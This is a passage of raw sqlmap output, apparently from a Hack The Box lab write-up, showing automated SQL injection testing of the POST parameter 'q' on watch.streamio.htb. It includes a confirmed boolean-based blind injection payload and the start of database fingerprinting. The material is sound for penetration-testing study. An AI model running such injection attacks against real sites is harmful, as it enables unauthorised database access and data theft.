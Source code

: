 ```bash
got a 302 redirect to 'https://watch.streamio.htb/blocked.php'. Do you want to follow? [Y/n] n
[01:39:04] [INFO] POST parameter 'q' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Is")
[01:39:16] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'Sybase' 
it looks like the back-end DBMS is 'Sybase'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[01:40:55] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[01:40:55] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (IN)'
[01:40:56] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONVERT)'
[01:40:57] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (CONVERT)'
[01:40:57] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONCAT)'
[01:40:58] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (CONCAT)'
[01:40:58] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace'
[01:40:58] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace (integer column)'
[01:40:58] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Stacking (EXEC)'
[01:40:58] [INFO] testing 'Generic inline queries'
[01:40:59] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[01:40:59] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[01:40:59] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[01:41:00] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (DECLARE - comment)'
[01:41:00] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries'
[01:41:01] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (DECLARE)'
[01:41:01] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[01:41:01] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF - comment)'
[01:41:02] [INFO] testing 'Microsoft SQL Server/Sybase AND time-based blind (heavy query)'
[01:41:03] [INFO] testing 'Microsoft SQL Server/Sybase OR time-based blind (heavy query)'
[01:41:03] [INFO] testing 'Microsoft SQL Server/Sybase AND time-based blind (heavy query - comment)'
[01:41:04] [INFO] testing 'Microsoft SQL Server/Sybase OR time-based blind (heavy query - comment)'
[01:41:05] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind - Parameter replace (heavy queries)'
[01:41:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[01:41:05] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[01:41:15] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[01:41:27] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[01:41:36] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[01:41:45] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[01:41:57] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[01:42:06] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[01:42:14] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[01:42:24] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[01:42:32] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[01:42:41] [INFO] checking if the injection point on POST parameter 'q' is a false positive
POST parameter 'q' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 299 HTTP(s) requests:
Parameter: q (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=hi%' AND 7972=7972 AND 'odKe%'='odKe
[01:43:06] [INFO] testing Sybase
[01:43:07] [WARNING] the back-end DBMS is not Sybase
[01:43:07] [INFO] testing MySQL
[01:43:07] [WARNING] the back-end DBMS is not MySQL
[01:43:07] [INFO] testing Oracle
```